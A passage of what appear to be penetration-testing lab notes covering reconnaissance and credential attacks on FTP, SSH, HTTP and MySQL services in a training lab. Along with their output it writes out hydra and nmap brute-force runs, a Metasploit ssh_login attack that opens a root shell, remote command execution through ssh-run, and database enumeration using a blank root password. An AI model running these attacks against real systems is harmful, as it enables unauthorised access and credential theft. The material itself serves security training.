[21][ftp] host: 192.164.208.3   login: sysadmin   password: 654321
[21][ftp] host: 192.164.208.3   login: rooty   password: qwerty
[21][ftp] host: 192.164.208.3   login: demo   password: butterfly
[21][ftp] host: 192.164.208.3   login: auditor   password: chocolate
[21][ftp] host: 192.164.208.3   login: anon   password: purple
[21][ftp] host: 192.164.208.3   login: administrator   password: tweety
[21][ftp] host: 192.164.208.3   login: diag   password: tigger
1 of 1 target successfully completed, 7 valid passwords found
```

<br />

---

<br />

### SSH

**get the version of ssh service using nmap**

```bash
root@attackdefense:~# nmap -sV -O  192.95.65.3 -p22
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-03 15:05 UTC
Nmap scan report for target-1 (192.95.65.3)
Host is up (0.000046s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
MAC Address: 02:42:C0:5F:41:03 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 2.6.32 - 3.10 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Synology DiskStation Manager 5.2-5644 (94%), Netgear RAIDiator 4.2.28 (94%), Linux 2.6.32 - 2.6.35 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

<br />

**view nmap scripts related to ftp**

```bash
root@attackdefense:~# ls -l /usr/share/nmap/scripts/ | grep -i "ssh"
-rw-r--r-- 1 root root  1207 Jan  9  2019 ssh-auth-methods.nse
-rw-r--r-- 1 root root  3068 Jan  9  2019 ssh-brute.nse
-rw-r--r-- 1 root root 15465 Jan  9  2019 ssh-hostkey.nse
-rw-r--r-- 1 root root  5970 Jan  9  2019 ssh-publickey-acceptance.nse
-rw-r--r-- 1 root root  2920 Jan  9  2019 ssh-run.nse
-rw-r--r-- 1 root root  5659 Jan  9  2019 ssh2-enum-algos.nse
-rw-r--r-- 1 root root  1446 Jan  9  2019 sshv1.nse
```

<br />

**ssh banner grapping**

```bash
root@attackdefense:~# nc 192.95.65.3 22                  
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.6 		
```


```bash
root@attackdefense:~# ssh root@192.95.65.3
The authenticity of host '192.95.65.3 (192.95.65.3)' can't be established.
ECDSA key fingerprint is SHA256:dxlBXgBb0Iv5/LmemZ2Eikb5+GLl9CSLf/B854fUeV8.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.95.65.3' (ECDSA) to the list of known hosts.
Welcome to attack defense ssh recon lab!!            
root@192.95.65.3's password: 
```

<br />

**bruteforce SSH users and passwords with nmap scripts**
**Note:** users must be a file containing users one per line. do not do  "userdb=root", you should write "root" in a file

```bash
root@attackdefense:~# nmap -p 22 192.231.224.3 --script ssh-brute --script-args userdb=users 
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-03 16:14 UTC
NSE: [ssh-brute] Trying username/password pair: administrator:administrator
NSE: [ssh-brute] Trying username/password pair: administrator:
NSE: [ssh-brute] Trying username/password pair: administrator:123456
NSE: [ssh-brute] Trying username/password pair: administrator:12345
NSE: [ssh-brute] Trying username/password pair: administrator:soccer
NSE: [ssh-brute] Trying username/password pair: administrator:anthony
Nmap scan report for target-1 (192.231.224.3)
Host is up (0.000046s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
|     administrator:sunshine - Valid credentials				<<<<<<<<<===========
|_  Statistics: Performed 31 guesses in 7 seconds, average tps: 4.4
MAC Address: 02:42:C0:E7:E0:03 (Unknown)

```

<br />

**get the ssh-rsa host key**

```bash
root@attackdefense:~# nmap --script=ssh-hostkey --script-args ssh_hostkey=full  -p 22 192.95.65.3 
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-03 15:24 UTC
Nmap scan report for target-1 (192.95.65.3)
Host is up (0.000055s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1fkJK7F8yxf3vewEcLYHljBnKTAiRqzFxkFo6lqyew73ATL2Abyh6at/oOmBSlPI90rtAMA6jQGJ+0HlHgf7mkjz5+CBo9j2VPu1bejYtcxpqpHcL5Bp12wgey1zup74fgd+yOzILjtgbnDOw1+HSkXqN79d+4BnK0QF6T9YnkHvBhZyjzIDmjonDy92yVBAIoB6Rdp0w7nzFz3aN9gzB5MW/nSmgc4qp7R6xtzGaqZKp1H3W3McZO3RELjGzvHOdRkAKL7n2kyVAraSUrR0Oo5m5e/sXrITYi9y0X6p2PTUfYiYvgkv/3xUF+5YDDA33AJvv8BblnRcRRZ74BxaD
|   ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB0cJ/kSOXBWVIBA2QH4UB6r7nFL5l7FwHubbSZ9dIs2JSmn/oIgvvQvxmI5YJxkdxRkQlF01KLDmVgESYXyDT4=
|_  ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKuZlCFfTgeaMC79zla20ZM2q64mjqWhKPw/2UzyQ2W/
MAC Address: 02:42:C0:5F:41:03 (Unknown)
```

<br />

**authentication method is being used by the SSH server for user admin and "student"**

```bash
root@attackdefense:~# nmap --script=ssh-auth-methods --script-args="ssh.user=admin" -p 22 192.95.65.3
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-03 15:29 UTC
Nmap scan report for target-1 (192.95.65.3)
Host is up (0.000055s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password
MAC Address: 02:42:C0:5F:41:03 (Unknown)


root@attackdefense:~# nmap --script=ssh-auth-methods --script-args="ssh.user=student" -p 22 192.95.65.3
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-03 15:29 UTC
Nmap scan report for target-1 (192.95.65.3)
Host is up (0.000067s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-auth-methods: 
|_  Supported authentication methods: none_auth
MAC Address: 02:42:C0:5F:41:03 (Unknown)
```

**Note:** there is no authentication for user "student", so you can login with `ssh student@192.95.65.3` directly

<br />

**execute commands with `ssh-run` nmap script with no authentication user**

``` bash
root@attackdefense:~# nmap --script=ssh-run --script-args="ssh-run.username=student, ssh-run.password= , ssh-run.cmd=ls;cat cat /home/student/FLAG" -p 22 192.95.65.3
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-03 15:36 UTC
NSE: [ssh-run] Authenticated
NSE: [ssh-run] Running command: ls;cat FLAG
NSE: [ssh-run] Output of command: FLAG
e1e3c0c9d409f594afdb18fe9ce0ffec

Nmap scan report for target-1 (192.95.65.3)
Host is up (0.000042s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-run: 
|   output: 
|     FLAG\x0D
|_e1e3c0c9d409f594afdb18fe9ce0ffec\x0D
MAC Address: 02:42:C0:5F:41:03 (Unknown)
```

<br />

**bruteforce SSHusers and passwords with hydra**

````bash
root@attackdefense:~# hydra -l student -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://192.231.224.3

[22][ssh] host: 192.231.224.3   login: student   password: friend
1 of 1 target successfully completed, 1 valid password found
````

<br />

**using metasploit scanner `scanner/ssh/ssh_login`**

```bash
msf5 > use scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > set rhosts 192.231.224.3
msf5 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
VERBOSE => true
msf5 auxiliary(scanner/ssh/ssh_login) > options 

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting                                    Required  Description
   ----              ---------------                                    --------  -----------
   BLANK_PASSWORDS   false                                              no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                  yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                              no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                              no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                              no        Add all users in the current database to the list
   PASSWORD                                                             no        A specific password to authenticate with
   PASS_FILE         /usr/share/wordlists/metasploit/root_userpass.txt  no        File containing passwords, one per line
   RHOSTS            192.231.224.3                                      yes       The target address range or CIDR identifier
   RPORT             22                                                 yes       The target port
   STOP_ON_SUCCESS   true                                               yes       Stop guessing when a credential works for a host
   THREADS           1                                                  yes       The number of concurrent threads
   USERNAME                                                             no        A specific username to authenticate as
   USERPASS_FILE                                                        no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                              no        Try the username as the password for all users
   USER_FILE                                                            no        File containing usernames, one per line
   VERBOSE           true                                               yes       Whether to print output for all attempts


msf5 auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
USERPASS_FILE => /usr/share/wordlists/metasploit/root_userpass.txt
msf5 auxiliary(scanner/ssh/ssh_login) > run

[-] 192.231.224.3:22 - Failed: 'root:'
[!] No active DB -- Credential data will not be saved!
[-] 192.231.224.3:22 - Failed: 'root:!root'
[-] 192.231.224.3:22 - Failed: 'root:Cisco'
[-] 192.231.224.3:22 - Failed: 'root:NeXT'
[-] 192.231.224.3:22 - Failed: 'root:QNX'
[-] 192.231.224.3:22 - Failed: 'root:admin'
[+] 192.231.224.3:22 - Success: 'root:attack' 'uid=0(root) gid=0(root) groups=0(root) Linux victim-1 5.4.0-152-generic #169-Ubuntu SMP Tue Jun 6 22:23:09 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (192.231.224.2:45487 -> 192.231.224.3:22) at 2024-01-03 16:23:48 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

<br />

---

<br />

### HTTP

**get the version of web server service using nmap**

```bash
root@attackdefense:~# nmap -sV 10.4.26.58 -p80 --script http-headers,http-enum
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-03 22:32 IST
Nmap scan report for 10.4.26.58
Host is up (0.0077s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-enum: 
|   /content/: Potentially interesting folder
|   /downloads/: Potentially interesting folder
|_  /webdav/: Potentially interesting folder
| http-headers: 
|   Cache-Control: private
|   Content-Type: text/html; charset=utf-8
|   Location: /Default.aspx
|   Server: Microsoft-IIS/10.0
|   Set-Cookie: ASP.NET_SessionId=vhk3uly2hn55cpu1jgwjhg45; path=/; HttpOnly; SameSite=Lax
|   X-AspNet-Version: 4.0.30319
|   Set-Cookie: Server=RE9UTkVUR09BVA==; path=/
|   X-XSS-Protection: 0
|   X-Powered-By: ASP.NET
|   Date: Wed, 03 Jan 2024 17:02:52 GMT
|   Connection: close
|   Content-Length: 130
|   
|_  (Request type: GET)
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.46 seconds


root@attackdefense:~# nmap -sV 10.4.26.58 -p80 --script http-methods --script-args http-methods.url-path=/webdav/
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-03 22:35 IST
Nmap scan report for 10.4.26.58
Host is up (0.0080s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|   Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_  Path tested: /webdav/
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.00 seconds

```

<br />

**whatweb**

```bash
root@attackdefense:~# whatweb 10.4.23.177
Ignoring eventmachine-1.3.0.dev.1 because its extensions are not built. Try: gem pristine eventmachine --version 1.3.0.dev.1
Ignoring fxruby-1.6.29 because its extensions are not built. Try: gem pristine fxruby --version 1.6.29
http://10.4.23.177 [302 Found] ASP_NET[4.0.30319], Cookies[ASP.NET_SessionId,Server], Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], HttpOnly[ASP.NET_SessionId], IP[10.4.23.177], Microsoft-IIS[10.0], RedirectLocation[/Default.aspx], Title[Object moved], X-Powered-By[ASP.NET], X-XSS-Protection[0]
http://10.4.23.177/Default.aspx [302 Found] ASP_NET[4.0.30319], Cookies[ASP.NET_SessionId,Server], Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], HttpOnly[ASP.NET_SessionId], IP[10.4.23.177], Microsoft-IIS[10.0], RedirectLocation[/Default.aspx], Title[Object moved], X-Powered-By[ASP.NET], X-XSS-Protection[0]
```

<br />

**`dirb` to bruteforce directories**

```bash
root@attackdefense:~# dirb http://10.4.23.177

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Jan  3 22:17:55 2024
URL_BASE: http://10.4.23.177/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.4.23.177/ ----
==> DIRECTORY: http://10.4.23.177/app_themes/                                  
==> DIRECTORY: http://10.4.23.177/aspnet_client/                               
==> DIRECTORY: http://10.4.23.177/configuration/                               
==> DIRECTORY: http://10.4.23.177/content/                                     
==> DIRECTORY: http://10.4.23.177/Content/                                     
==> DIRECTORY: http://10.4.23.177/downloads/                                   
==> DIRECTORY: http://10.4.23.177/Downloads/                                   
==> DIRECTORY: http://10.4.23.177/resources/                                   
==> DIRECTORY: http://10.4.23.177/Resources/                                   
                                                  
```

<br />

**curl**

```bash
root@attackdefense:~# curl -vv http://192.89.118.3 
```

<br />

**wget**

```bash
root@attackdefense:~# wget http://192.89.118.3 
```

<br />

**lyxn**

```bash
root@INE:~# lyxn http://192.89.118.3 
```

<br />

**using metasploit scanner `auxiliary/scanner/http/brute_dirs`**

```bash
msf6 > use auxiliary/scanner/http/brute_dirs
msf6 auxiliary(scanner/http/brute_dirs) > set rhosts 192.89.118.3 
rhosts => 192.89.118.3
msf6 auxiliary(scanner/http/brute_dirs) > 
msf6 auxiliary(scanner/http/brute_dirs) > run

[*] Using code '404' as not found.
[+] Found http://192.89.118.3:80/dir/ 200
[+] Found http://192.89.118.3:80/src/ 200
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/brute_dirs) > 

```

<br />

----

<br />

### SQL

#### 1-MYSQL

<br />

**MYSQL version with nmap**

```bash
root@attackdefense:~# nmap 192.1.173.3 -sV -p3306
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-07 11:20 UTC
Nmap scan report for target-1 (192.1.173.3)
Host is up (0.000044s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
MAC Address: 02:42:C0:01:AD:03 (Unknown)


root@attackdefense:~# nmap 192.1.173.3 -sV -p3306 --script=mysql-info          
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-07 12:23 UTC
Nmap scan report for target-1 (192.1.173.3)
Host is up (0.000048s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.62-0ubuntu0.14.04.1
|   Thread ID: 70
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, Speaks41ProtocolOld, SupportsCompression, SupportsTransactions, LongPassword, IgnoreSigpipes, ConnectWithDatabase, ODBCClient, FoundRows, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, Speaks41ProtocolNew, InteractiveClient, LongColumnFlag, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: !NEQHTL`|qD;=_I/Lrz.
|_  Auth Plugin Name: 96
MAC Address: 02:42:C0:01:AD:03 (Unknown)

```

<br />

**gather mysql users and databases with nmap**

```bash
root@attackdefense:~# nmap 192.1.173.3 -sV -p3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-07 12:24 UTC
Nmap scan report for target-1 (192.1.173.3)
Host is up (0.000038s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
| mysql-users: 
|   filetest
|   root
|   karim
|   karim2
|   debian-sys-maint
|   guest
|   sammy
|   sigver
|   sysadmin
|   udadmin
|_  ultra
MAC Address: 02:42:C0:01:AD:03 (Unknown)

root@attackdefense:~# nmap 192.1.173.3 -sV -p3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-07 12:27 UTC
Nmap scan report for target-1 (192.1.173.3)
Host is up (0.000057s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
| mysql-databases: 
|   information_schema
|   books
|   data
|   mysql
|   password
|   performance_schema
|   secret
|   store
|   upload
|   vendors
|_  videos
MAC Address: 02:42:C0:01:AD:03 (Unknown)

```

<br />

**gather mysql variables**

```bash
root@attackdefense:~# nmap 192.1.173.3 -sV -p3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''"
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-07 12:28 UTC
Nmap scan report for target-1 (192.1.173.3)
Host is up (0.000045s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
| mysql-variables: 
|   auto_increment_increment: 1
|   auto_increment_offset: 1
|   autocommit: ON
|   automatic_sp_privileges: ON
|   back_log: 50
|   basedir: /usr
|   big_tables: OFF
|   binlog_cache_size: 32768
|   binlog_direct_non_transactional_updates: OFF
|   binlog_format: STATEMENT
|   binlog_stmt_cache_size: 32768
|   bulk_insert_buffer_size: 8388608
|   character_set_client: latin1
|   character_set_connection: latin1
|   character_set_database: latin1
|   character_set_filesystem: binary
|   character_set_results: latin1
|   character_set_server: latin1
|   character_set_system: utf8
|   character_sets_dir: /usr/share/mysql/charsets/
|   collation_connection: latin1_swedish_ci
|   collation_database: latin1_swedish_ci
|   collation_server: latin1_swedish_ci
|   completion_type: NO_CHAIN
|   concurrent_insert: AUTO
|   connect_timeout: 10
|   datadir: /var/lib/mysql/
|   date_format: %Y-%m-%d
|   datetime_format: %Y-%m-%d %H:%i:%s
|   default_storage_engine: InnoDB
|   default_week_format: 0
|   delay_key_write: ON
|   delayed_insert_limit: 100
|   delayed_insert_timeout: 300
|   delayed_queue_size: 1000
|   div_precision_increment: 4
|   engine_condition_pushdown: ON
|   error_count: 0
|   event_scheduler: OFF
|   expire_logs_days: 10
|   external_user: 
|   flush: OFF
|   flush_time: 0
|   foreign_key_checks: ON
|   ft_boolean_syntax: + -><()~*:""&|
|   ft_max_word_len: 84
|   ft_min_word_len: 4
|   ft_query_expansion_limit: 20
|   ft_stopword_file: (built-in)
|   general_log: OFF
|   general_log_file: /var/lib/mysql/victim-1.log
|   group_concat_max_len: 1024
|   have_compress: YES
|   have_crypt: YES
|   have_csv: YES
|   have_dynamic_loading: YES
|   have_geometry: YES
|   have_innodb: YES
|   have_ndbcluster: NO
|   have_openssl: DISABLED
|   have_partitioning: YES
|   have_profiling: YES
|   have_query_cache: YES
|   have_rtree_keys: YES
|   have_ssl: DISABLED
|   have_symlink: YES
|   hostname: victim-1
|   identity: 0
|   ignore_builtin_innodb: OFF
|   init_connect: 
|   init_file: 
|   init_slave: 
|   innodb_adaptive_flushing: ON
|   innodb_adaptive_hash_index: ON
|   innodb_additional_mem_pool_size: 8388608
|   innodb_autoextend_increment: 8
|   innodb_autoinc_lock_mode: 1
|   innodb_buffer_pool_instances: 1
|   innodb_buffer_pool_size: 134217728
|   innodb_change_buffering: all
|   innodb_checksums: ON
|   innodb_commit_concurrency: 0
|   innodb_concurrency_tickets: 500
|   innodb_data_file_path: ibdata1:10M:autoextend
|   innodb_data_home_dir: 
|   innodb_doublewrite: ON
|   innodb_fast_shutdown: 1
|   innodb_file_format: Antelope
|   innodb_file_format_check: ON
|   innodb_file_format_max: Antelope
|   innodb_file_per_table: OFF
|   innodb_flush_log_at_trx_commit: 1
|   innodb_flush_method: 
|   innodb_force_load_corrupted: OFF
|   innodb_force_recovery: 0
|   innodb_io_capacity: 200
|   innodb_large_prefix: OFF
|   innodb_lock_wait_timeout: 50
|   innodb_locks_unsafe_for_binlog: OFF
|   innodb_log_buffer_size: 8388608
|   innodb_log_file_size: 5242880
|   innodb_log_files_in_group: 2
|   innodb_log_group_home_dir: ./
|   innodb_max_dirty_pages_pct: 75
|   innodb_max_purge_lag: 0
|   innodb_mirrored_log_groups: 1
|   innodb_old_blocks_pct: 37
|   innodb_old_blocks_time: 0
|   innodb_open_files: 300
|   innodb_print_all_deadlocks: OFF
|   innodb_purge_batch_size: 20
|   innodb_purge_threads: 0
|   innodb_random_read_ahead: OFF
|   innodb_read_ahead_threshold: 56
|   innodb_read_io_threads: 4
|   innodb_replication_delay: 0
|   innodb_rollback_on_timeout: OFF
|   innodb_rollback_segments: 128
|   innodb_spin_wait_delay: 6
|   innodb_stats_method: nulls_equal
|   innodb_stats_on_metadata: ON
|   innodb_stats_sample_pages: 8
|   innodb_strict_mode: OFF
|   innodb_support_xa: ON
|   innodb_sync_spin_loops: 30
|   innodb_table_locks: ON
|   innodb_thread_concurrency: 0
|   innodb_thread_sleep_delay: 10000
|   innodb_use_native_aio: ON
|   innodb_use_sys_malloc: ON
|   innodb_version: 5.5.62
|   innodb_write_io_threads: 4
|   insert_id: 0
|   interactive_timeout: 28800
|   join_buffer_size: 131072
|   keep_files_on_create: OFF
|   key_buffer_size: 16777216
|   key_cache_age_threshold: 300
|   key_cache_block_size: 1024
|   key_cache_division_limit: 100
|   large_files_support: ON
|   large_page_size: 0
|   large_pages: OFF
|   last_insert_id: 0
|   lc_messages: en_US
|   lc_messages_dir: /usr/share/mysql/
|   lc_time_names: en_US
|   license: GPL
|   local_infile: ON
|   lock_wait_timeout: 31536000
|   locked_in_memory: OFF
|   log: OFF
|   log_bin: OFF
|   log_bin_trust_function_creators: OFF
|   log_error: /var/log/mysql/error.log
|   log_output: FILE
|   log_queries_not_using_indexes: OFF
|   log_slave_updates: OFF
|   log_slow_queries: OFF
|   log_warnings: 1
|   long_query_time: 10.000000
|   low_priority_updates: OFF
|   lower_case_file_system: OFF
|   lower_case_table_names: 0
|   max_allowed_packet: 16777216
|   max_binlog_cache_size: 18446744073709547520
|   max_binlog_size: 104857600
|   max_binlog_stmt_cache_size: 18446744073709547520
|   max_connect_errors: 10
|   max_connections: 151
|   max_delayed_threads: 20
|   max_error_count: 64
|   max_heap_table_size: 16777216
|   max_insert_delayed_threads: 20
|   max_join_size: 18446744073709551615
|   max_length_for_sort_data: 1024
|   max_long_data_size: 16777216
|   max_prepared_stmt_count: 16382
|   max_relay_log_size: 0
|   max_seeks_for_key: 18446744073709551615
|   max_sort_length: 1024
|   max_sp_recursion_depth: 0
|   max_tmp_tables: 32
|   max_user_connections: 0
|   max_write_lock_count: 18446744073709551615
|   metadata_locks_cache_size: 1024
|   min_examined_row_limit: 0
|   multi_range_count: 256
|   myisam_data_pointer_size: 6
|   myisam_max_sort_file_size: 9223372036853727232
|   myisam_mmap_size: 18446744073709551615
|   myisam_recover_options: BACKUP
|   myisam_repair_threads: 1
|   myisam_sort_buffer_size: 8388608
|   myisam_stats_method: nulls_unequal
|   myisam_use_mmap: OFF
|   net_buffer_length: 16384
|   net_read_timeout: 30
|   net_retry_count: 10
|   net_write_timeout: 60
|   new: OFF
|   old: OFF
|   old_alter_table: OFF
|   old_passwords: OFF
|   open_files_limit: 1048576
|   optimizer_prune_level: 1
|   optimizer_search_depth: 62
|   optimizer_switch: index_merge=on,index_merge_union=on,index_merge_sort_union=on,index_merge_intersection=on,engine_condition_pushdown=on
|   performance_schema: OFF
|   performance_schema_events_waits_history_long_size: 10000
|   performance_schema_events_waits_history_size: 10
|   performance_schema_max_cond_classes: 80
|   performance_schema_max_cond_instances: 1000
|   performance_schema_max_file_classes: 50
|   performance_schema_max_file_handles: 32768
|   performance_schema_max_file_instances: 10000
|   performance_schema_max_mutex_classes: 200
|   performance_schema_max_mutex_instances: 1000000
|   performance_schema_max_rwlock_classes: 30
|   performance_schema_max_rwlock_instances: 1000000
|   performance_schema_max_table_handles: 100000
|   performance_schema_max_table_instances: 50000
|   performance_schema_max_thread_classes: 50
|   performance_schema_max_thread_instances: 1000
|   pid_file: /var/run/mysqld/mysqld.pid
|   plugin_dir: /usr/lib/mysql/plugin/
|   port: 3306
|   preload_buffer_size: 32768
|   profiling: OFF
|   profiling_history_size: 15
|   protocol_version: 10
|   proxy_user: 
|   pseudo_slave_mode: OFF
|   pseudo_thread_id: 78
|   query_alloc_block_size: 8192
|   query_cache_limit: 1048576
|   query_cache_min_res_unit: 4096
|   query_cache_size: 16777216
|   query_cache_type: ON
|   query_cache_wlock_invalidate: OFF
|   query_prealloc_size: 8192
|   rand_seed1: 0
|   rand_seed2: 0
|   range_alloc_block_size: 4096
|   read_buffer_size: 131072
|   read_only: OFF
|   read_rnd_buffer_size: 262144
|   relay_log: 
|   relay_log_index: 
|   relay_log_info_file: relay-log.info
|   relay_log_purge: ON
|   relay_log_recovery: OFF
|   relay_log_space_limit: 0
|   report_host: 
|   report_password: 
|   report_port: 3306
|   report_user: 
|   rpl_recovery_rank: 0
|   secure_auth: OFF
|   secure_file_priv: 
|   server_id: 0
|   skip_external_locking: ON
|   skip_name_resolve: OFF
|   skip_networking: OFF
|   skip_show_database: OFF
|   slave_compressed_protocol: OFF
|   slave_exec_mode: STRICT
|   slave_load_tmpdir: /tmp
|   slave_max_allowed_packet: 1073741824
|   slave_net_timeout: 3600
|   slave_skip_errors: OFF
|   slave_transaction_retries: 10
|   slave_type_conversions: 
|   slow_launch_time: 2
|   slow_query_log: OFF
|   slow_query_log_file: /var/lib/mysql/victim-1-slow.log
|   socket: /var/run/mysqld/mysqld.sock
|   sort_buffer_size: 2097152
|   sql_auto_is_null: OFF
|   sql_big_selects: ON
|   sql_big_tables: OFF
|   sql_buffer_result: OFF
|   sql_log_bin: ON
|   sql_log_off: OFF
|   sql_low_priority_updates: OFF
|   sql_max_join_size: 18446744073709551615
|   sql_mode: 
|   sql_notes: ON
|   sql_quote_show_create: ON
|   sql_safe_updates: OFF
|   sql_select_limit: 18446744073709551615
|   sql_slave_skip_counter: 0
|   sql_warnings: OFF
|   ssl_ca: 
|   ssl_capath: 
|   ssl_cert: 
|   ssl_cipher: 
|   ssl_key: 
|   storage_engine: InnoDB
|   stored_program_cache: 256
|   sync_binlog: 0
|   sync_frm: ON
|   sync_master_info: 0
|   sync_relay_log: 0
|   sync_relay_log_info: 0
|   system_time_zone: UTC
|   table_definition_cache: 400
|   table_open_cache: 400
|   thread_cache_size: 8
|   thread_concurrency: 10
|   thread_handling: one-thread-per-connection
|   thread_stack: 196608
|   time_format: %H:%i:%s
|   time_zone: SYSTEM
|   timed_mutexes: OFF
|   timestamp: 1704630513
|   tmp_table_size: 16777216
|   tmpdir: /tmp
|   transaction_alloc_block_size: 8192
|   transaction_prealloc_size: 4096
|   tx_isolation: REPEATABLE-READ
|   unique_checks: ON
|   updatable_views_with_limit: YES
|   version: 5.5.62-0ubuntu0.14.04.1
|   version_comment: (Ubuntu)
|   version_compile_machine: x86_64
|   version_compile_os: debian-linux-gnu
|   wait_timeout: 28800
|_  warning_count: 0
MAC Address: 02:42:C0:01:AD:03 (Unknown)

```

<br />

**mysql audit**

```bash
root@attackdefense:~# nmap 192.1.173.3 -sV -p3306 --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-07 12:35 UTC
Nmap scan report for target-1 (192.1.173.3)
Host is up (0.000038s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
| mysql-audit: 
|   CIS MySQL Benchmarks v1.0.2
|       3.1: Skip symbolic links => FAIL
|       3.2: Logs not on system partition => PASS
|       3.2: Logs not on database partition => PASS
|       4.1: Supported version of MySQL => REVIEW
|         Version: 5.5.62-0ubuntu0.14.04.1
|       4.4: Remove test database => PASS
|       4.5: Change admin account name => PASS
|       4.7: Verify Secure Password Hashes => PASS
|       4.9: Wildcards in user hostname => PASS
|         The following users were found with wildcards in hostname
|           filetest
|           root
|       4.10: No blank passwords => PASS
|         The following users were found having blank/empty passwords
|           root
|       4.11: Anonymous account => PASS
|       5.1: Access to mysql database => REVIEW
|         Verify the following users that have access to the MySQL database
|           user  host
|       5.2: Do not grant FILE privileges to non Admin users => PASS
|         The following users were found having the FILE privilege
|           filetest
|       5.3: Do not grant PROCESS privileges to non Admin users => PASS
|       5.4: Do not grant SUPER privileges to non Admin users => PASS
|       5.5: Do not grant SHUTDOWN privileges to non Admin users => PASS
|       5.6: Do not grant CREATE USER privileges to non Admin users => PASS
|       5.7: Do not grant RELOAD privileges to non Admin users => PASS
|         The following users were found having the RELOAD privilege
